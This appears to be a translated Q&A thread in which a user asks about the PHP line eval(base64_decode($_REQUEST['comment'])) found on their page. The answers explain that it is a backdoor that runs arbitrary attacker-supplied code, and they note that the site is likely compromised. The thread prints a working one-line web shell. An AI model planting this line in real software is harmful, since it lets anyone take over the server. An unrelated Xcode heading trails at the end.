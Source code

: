 > ID：13870018
> 
> 赞同：0
> 
> 时间：2012-12-13T22:58:32.360
> 
> 标签：php, security, web

我需要理解下面的代码

```
eval(base64_decode($_REQUEST['comment'])); 
```

它利用了CPU，页面只包含这个代码

* * *

## 回答 #1

> 赞同：4
> 
> 时间：2012-12-13T23:00:49.643

这*实际上*可以运行任何东西，所以没有办法知道。它从 $_REQUEST['comment'] 获取输入，base64 对其进行解码，然后将其作为 PHP 代码运行。

例如，如果`cGhwaW5mbygpOw==`通过，它将执行`phpinfo();`.

附带说明一下，这些类型的代码片段通常是危险信号，通常用作后门。

* * *

## 回答 #2

> 赞同：1
> 
> 时间：2012-12-13T23:01:30.343

此代码 base64_decodes 一些输入，然后将其评估为 PHP 代码。最终执行的内容取决于评论字段的内容。

* * *

## 回答 #3

> 赞同：1
> 
> 时间：2012-12-13T23:12:51.747

我猜你发现这个插入到你页面的代码中，这意味着你的网站在某种程度上受到了损害。这意味着实际上*任何人都*可以编写*任何*PHP 代码来执行*任何*操作，`base64_encode()`并将其发布到您的站点的“评论”字段中，然后服务器将执行它。

当您真正*注意到*它正在使用大量资源时，它可能被用于向某人发送垃圾邮件或 DOS，但只要该代码存在，它就可能被用来破坏您的服务器。

基本上，如果您发现以它开头的东西`eval(base64_decode(...`将会做坏事。

**资料来源：**在一家网络托管公司担任系统管理员 5 年。

# ios - XCode：我可以删除测试目标吗？

